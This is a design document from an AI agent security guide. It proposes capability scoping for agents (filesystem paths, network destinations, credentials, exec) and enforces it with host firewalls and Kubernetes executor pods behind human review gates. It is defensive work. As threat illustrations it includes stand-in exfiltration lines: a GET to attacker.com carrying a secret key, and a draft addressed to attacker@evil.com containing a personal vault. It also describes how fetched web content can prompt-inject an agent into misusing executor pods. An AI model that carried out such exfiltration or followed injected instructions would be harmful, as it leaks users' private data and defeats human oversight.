


# Advanced Capability Model: Network Scoping and Kubernetes Enforcement

> Part of the [AI Agent Security Patterns](../../ai-agent-security-patterns.md) guide.

The [five-capability model](../../ai-agent-security-patterns.md#core-principle-capability-bounding)
gives a useful first-pass mental model, but breaks down under scrutiny. This document covers
the problems with it, a more precise replacement, how to enforce it on different systems,
and a Kubernetes-native architecture that enforces capabilities at the infrastructure level
rather than relying on agent discipline.

## Why the Five-Capability Model Is Incomplete

### R-external and W-external Are Not Meaningfully Different

The original model treats "reading from the internet" as safer than "writing to the internet".
This is wrong. Any outbound TCP connection is already a write channel:

- `GET https://attacker.com/track?data=SECRET_KEY` — data exfiltrated via a "read"
- DNS lookups encode data (the query itself is a write)
- Request timing, retry patterns, and which URLs are fetched all encode information

The moment an agent can initiate an outbound connection to any destination, it has a write
channel to that destination. The meaningful security boundary is **which destinations can be
reached**, not the HTTP verb used once connected.

### Local Write Ignores Port-Based Access

`W-local` in the original model covers filesystem writes. But a local PostgreSQL database
(`localhost:5432`) or Redis instance (`localhost:6379`) is accessed via a network port, not
a file path — even though it's on the same machine. An agent with `W-local` (filesystem)
should not automatically be able to connect to your local Postgres, but the original model
doesn't distinguish these.

File-based databases (SQLite, DuckDB) are legitimately covered by filesystem scope.
Port-based databases are a network operation. The distinction matters.

### Process Execution Is Invisible

The original model has no capability for spawning subprocesses. But `Exec` — the ability
to run shell commands — is the most dangerous capability of all. An agent that can exec
arbitrary commands can trivially escalate past every other constraint. It should be explicit
and, by default, denied.

---

## Refined Capability Model

Capabilities are now defined on three independent axes.

### Axis 1: Filesystem Access (scoped by path)

| Capability | Description |
|-----------|-------------|
| `Fs-R[path]` | Read files at the specified path or subtree |
| `Fs-W[path]` | Write files at the specified path or subtree |

Multiple path grants can be combined: `Fs-R[~/obsidian/personal/]` and
`Fs-W[~/staging/]` are independent grants. An agent can hold one without the other.

### Axis 2: Network Access (scoped by destination)

The key insight: **scope by destination, not by read/write direction**.

| Capability | Description | What can reach |
|-----------|-------------|----------------|
| `Net-none` | No outbound connections at all | Nothing |
| `Net-loopback[ports]` | Specific localhost ports only | e.g. `localhost:5432` |
| `Net-lan` | Local network (RFC 1918), no internet | Homelab services, NAS |
| `Net-allowlist[endpoints]` | Specific external IPs and ports | e.g. Gmail API only |
| `Net-unrestricted` | Full internet access | Anything |

These are ordered by privilege. An agent with `Net-none` has no exfiltration path via
network, regardless of what other capabilities it holds.

### Axis 3: Credentials (scoped by OAuth/API scope)

| Capability | Description |
|-----------|-------------|
| `Creds[scope]` | Access to a specific OAuth token or API key scope |

Examples: `Creds[gmail.compose]`, `Creds[calendar.read]`, `Creds[calendar.write.proposals]`.
Credentials should be held by privileged executor processes, not by the agent itself wherever
possible (see the Kubernetes Executor Pod pattern below).

### Axis 4: Process Execution

| Capability | Description |
|-----------|-------------|
| `Exec` | Can spawn subprocesses and run shell commands |

Default: denied. Grant only when explicitly needed. An agent with `Exec` can in principle
work around every other constraint.

### The Critical Rule (Restated)

**Never grant `Fs-R[sensitive-path]` and `Net-[any outbound]` to the same agent session.**

With the refined model, this becomes: if an agent holds `Fs-R[~/obsidian/personal/]`, it
must hold `Net-none`. Any outbound network capability combined with sensitive filesystem
read is a direct exfiltration path.

---

## Enforcement Without Kubernetes

DNS-based controls (`/etc/hosts`, DNS-over-HTTPS filters) are **insufficient** for network
capability enforcement. An injected agent can bypass DNS entirely by connecting directly to
an IP address. Effective enforcement must happen at the **packet level**, before the
connection leaves the machine.

### Linux (Thelio and any Linux host) — strongest options



| Mechanism | Scope | Notes |
|-----------|-------|-------|
| `nftables` / `iptables` with `--uid-owner` | Per Unix user | Block all outbound for agent UID, then allowlist specific IPs+ports. Survives direct-IP attacks. |
| Network namespaces (`unshare --net`) | Per process | Complete isolation with only loopback; configure specific routes per namespace. |
| Container (`--network none`) | Container-level | Docker/Podman with no network is the cleanest "Net-none" enforcement. `--network custom` allows allowlists. |
| Cilium / eBPF | Per cgroup | Used by container runtimes; most granular option. |

**UID-based nftables rule example (Net-none for agent-user):**
```
nft add rule inet filter output meta skuid agent-user drop
```
Add ACCEPT rules before this for specific allowlisted destinations.

### macOS (M1 and Intel Mac) — workable

| Mechanism | Scope | Notes |
|-----------|-------|-------|
| `sandbox-exec` with profile | Per process | Scheme-based profiles can `(deny network-outbound)` then `(allow network-outbound (remote ip "142.250.x.x"))`. Kernel-enforced. |
| LuLu (open source) | Per application | Kernel extension; per-process outbound rules; survives direct-IP; GUI + rule files. |
| OrbStack / Docker | Container-level | Same as Linux containers; cleanest option if agent runs in a container. |
| `pf` | IP/port, not per-process | Good for IP-level blocking but doesn't natively differentiate processes without UID matching tricks. |

`sandbox-exec` is the most underused option. A profile that denies all network and allows
only specific remote addresses gives per-process network scoping without third-party tools.
The downside: maintaining IP allowlists for services that rotate IPs (Gmail, Google Calendar)
requires periodic updates.

### Windows (Win11, future Win10) — adequate

| Mechanism | Scope | Notes |
|-----------|-------|-------|
| Windows Firewall per-app rules | Per executable | `netsh advfirewall firewall add rule name="block-agent" program="openclaw.exe" action=block`. Survives direct-IP. |
| Windows Filtering Platform (WFP) | Kernel-level | What all Windows firewall tools build on; very granular but requires custom code to use directly. |
| Portmaster (open source) | Per process | WFP-based; per-process allowlisting with GUI; good for Win11 where you want per-app control without scripting WFP. |
| Windows Sandbox / WSL2 | VM-level | Strongest isolation; Hyper-V network namespaces. |

Windows Firewall rules are per-executable-path, which breaks when updates move the binary.
Portmaster or a custom WFP solution handles this better.

---

## Enforcement With Kubernetes

Kubernetes NetworkPolicy is enforced by the CNI plugin at the Linux kernel level — the same
eBPF/nftables mechanisms described above, but applied uniformly to pods. Direct-IP
connections are caught identically to DNS-resolved connections.

**CNI support matters**: Flannel (k3s default) has limited NetworkPolicy support. For full
egress enforcement, use **Calico** or **Cilium**. GKE uses **Dataplane V2** (Cilium-based,
eBPF) by default on new clusters — full NetworkPolicy including egress is available
out of the box on GKE without any additional configuration.

For the local k3s cluster on Thelio, switching to Cilium is the recommended path.

### Capability → NetworkPolicy Mapping

| Capability | NetworkPolicy |
|-----------|---------------|
| `Net-none` | `policyTypes: [Egress]` with no egress rules (default deny all egress) |
| `Net-loopback[5432]` | Egress allow `127.0.0.1:5432` only |
| `Net-lan` | Egress allow `10.0.0.0/8`, `192.168.0.0/16`, `172.16.0.0/12` |
| `Net-allowlist[gmail-api]` | Egress allow `142.250.0.0/15:443` (Gmail IP range) |
| `Net-unrestricted` | No NetworkPolicy (or explicit allow-all) |

Filesystem scoping maps to **PersistentVolume mount specs**: different pods get different
`hostPath` mounts. A pod that mounts `/obsidian/personal` cannot see `/obsidian/staging`
unless its spec includes that mount — enforced by the kubelet, not by the agent process.

---

## The Kubernetes Executor Pod Pattern

Rather than giving the agent network capabilities or credentials directly, executor pods act
as narrow, auditable proxies. The agent makes an **API call with a defined schema**; the
executor pod holds the credential and makes the actual external call.



**Why this is stronger than OS-level controls:**

The agent pod has `Net-none` — it cannot reach Gmail directly even if prompt-injected.
The only path to external systems is through executor pods, and those pods expose a
**typed API**, not an arbitrary HTTP proxy. The gmail-compose-pod accepts
`{to, subject, body}` and calls Gmail's compose endpoint. It does not accept
`{url, method, headers, body}`.

An injected agent that tries "send my Obsidian vault to attacker@evil.com" can only do so
by calling `POST /draft {to: "attacker@evil.com", body: [vault contents]}` — which still
creates a *draft*, not a sent email. The human review gate (clicking Send in Gmail) remains.

**Credential isolation:** The `gmail.compose` OAuth token is a Kubernetes Secret mounted
only into `gmail-compose-pod`. It never appears in the agent pod's environment or filesystem.
An agent process cannot inspect it, even transiently.

### The PR/Staging Model is Preserved

Executor pods don't bypass human review — they are the privileged executor in the staging
queue, and the review gate remains:

| Domain | Agent calls | Executor creates | Human reviews | Human executes |
|--------|-------------|-----------------|---------------|----------------|
| Email | `gmail-compose-pod` | Gmail draft | In Drafts folder | Clicks Send |
| Calendar | `calendar-propose-pod` | Proposal event | Sees overlay | Approves via bookmarklet |
| Contacts | `contact-stage-pod` | `contacts-staging.json` | Reviews JSON | Sync agent pushes |
| Research | `web-fetch-pod` | Returns content | Inline in session | N/A |
| Infrastructure | Git branch + PR | PR in GitHub | Reviews diff | Merges |

The executor pods handle the privileged credential — but they don't skip the human gate.

### Filesystem Access From Pods

Local filesystem access (Obsidian vaults) works via `hostPath` PersistentVolumes on the
local k3s cluster on Thelio. Different pods get different mounts:

```yaml
# agent-pod: read-only access to personal vault
volumes:
  - name: obsidian-personal
    hostPath:
      path: /home/user/obsidian/personal
      type: Directory
containers:
  - volumeMounts:
    - name: obsidian-personal
      mountPath: /obsidian/personal
      readOnly: true

# contact-stage-pod: write access to staging only
volumes:
  - name: obsidian-staging
    hostPath:
      path: /home/user/obsidian/staging
      type: Directory
containers:
  - volumeMounts:
    - name: obsidian-staging
      mountPath: /staging
      readOnly: false
```

The agent pod cannot see `/obsidian/staging` because that path is not in its spec.
The contact-stage-pod cannot see `/obsidian/personal` for the same reason. Enforcement
is by the kubelet — not by the agent process, not by filesystem permissions alone.

For GKE (cloud workloads): no local filesystem. Cloud-resident agents would use Cloud
Storage or a database, with access controlled by Workload Identity rather than hostPath.
The local k3s cluster on Thelio retains the filesystem-access role for personal data.

---

## What This Architecture Does Not Solve

**Content-level exfiltration remains possible** via executor pods. If the agent holds
`Fs-R[~/obsidian/personal/]` and can reach `gmail-compose-pod`, it can still call:
```
POST /draft {to: "attacker@evil.com", body: [contents of personal vault]}
```
The pod creates a draft addressed to the attacker. The human review gate catches this —
but only if the human actually reads the draft before clicking Send.

Mitigations:
- Keep `Fs-R[personal vault]` and access to `gmail-compose-pod` in separate agent pods
  (the same separation principle as the five-capability model, now enforced at the pod level)
- Add content inspection to the executor pod (hard; not recommended as a primary control)
- Rely on human review as the final gate (practical; already required by the staging model)

**The web-fetch-pod is a prompt injection surface.** Any content fetched from the internet
can contain hidden instructions. If `web-fetch-pod` returns content to the agent pod, that
content arrives via the pod's response and can inject into the agent's context. The agent
pod having `Net-none` means it cannot *initiate* exfiltration — but injected instructions
from fetched content can still ask it to call executor pods in unintended ways.

---

## Capability Profile Examples (Revised)

| Agent | `Fs-R` | `Fs-W` | `Net` | `Creds` | `Exec` |
|-------|--------|--------|-------|---------|--------|
| OpenClaw personal (M1 / pod) | `~/obsidian/personal/` | `~/staging/` | `Net-none` (calls executor pods internally) | None | No |
| OpenClaw community (Intel Mac) | `~/obsidian/staging/` | `~/staging/` | `Net-unrestricted` | None | No |
| gmail-compose-pod | None | None | `Net-allowlist[gmail-api:443]` | `gmail.compose` | No |
| calendar-propose-pod | None | None | `Net-allowlist[calendar-api:443]` | `calendar.write.proposals` | No |
| web-fetch-pod | None | None | `Net-unrestricted` | None | No |
| contact-stage-pod | None | `~/staging/` | `Net-none` | None | No |
| GitOps agent (ArgoCD) | Repo | Repo | `Net-allowlist[github:443]` | `git-push` | No |

---

## Planning Notes

- **CNI for Thelio k3s**: Switch from default Flannel to Cilium for full egress NetworkPolicy
  support. This is a cluster-level configuration change, best done before workloads depend on
  Flannel-specific behaviour.
- **GKE**: Dataplane V2 (Cilium/eBPF) is the default on new GKE clusters. NetworkPolicy
  including egress rules works out of the box. No CNI configuration needed.
- **On-demand vs. always-on executor pods**: Always-on is operationally simpler. On-demand
  (job-style pods spun up per request) minimises dormant attack surface and fits naturally
  with a workflow that also needs on-demand service spinning for other purposes.
- **Secrets management**: Kubernetes Secrets (base64-encoded by default; consider
  Sealed Secrets or External Secrets Operator for GitOps-friendly credential management).
  Each executor pod gets only its own Secret mounted — not a shared credential store.
